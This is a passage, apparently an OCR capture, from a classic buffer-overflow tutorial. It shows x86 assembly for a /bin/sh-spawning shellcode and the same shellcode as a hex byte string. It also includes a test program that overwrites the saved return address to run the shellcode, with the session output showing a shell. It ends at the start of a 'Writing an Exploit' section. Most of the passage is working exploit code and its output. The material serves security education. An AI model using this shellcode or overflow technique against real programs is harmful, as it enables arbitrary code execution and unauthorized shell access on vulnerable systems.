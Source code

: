         leal   0xc(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        xorl   %ebx,%ebx                # 2 bytes
        movl   %ebx,%eax                # 2 bytes
        inc    %eax                     # 1 bytes
        int    $0x80                    # 2 bytes
        call   -0x24                    # 5 bytes
        .string \"/bin/sh\"             # 8 bytes
					# 46 bytes total
");
}
------------------------------------------------------------------------------

   And our new test program:

testsc2.c
------------------------------------------------------------------------------
char shellcode[] =
	"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
	"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
	"\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() {
   int *ret;

   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;

}
------------------------------------------------------------------------------
------------------------------------------------------------------------------
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
------------------------------------------------------------------------------


                              Writing an Exploit
                              ~~~~~~~~~~~~~~~~~~
                          (or how to mung the stack)
                          ~~~~~~~~~~~~~~~~~~~~~~~~~~


   Lets try to pull all our pieces together.  We have the shellcode.  We know
it must be part of the string which we'll use to overflow the buffer.  We 
know we must point the return address back into the buffer.  This example will
demonstrate these points:

overflow1.c
------------------------------------------------------------------------------
char shellcode[] =
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";
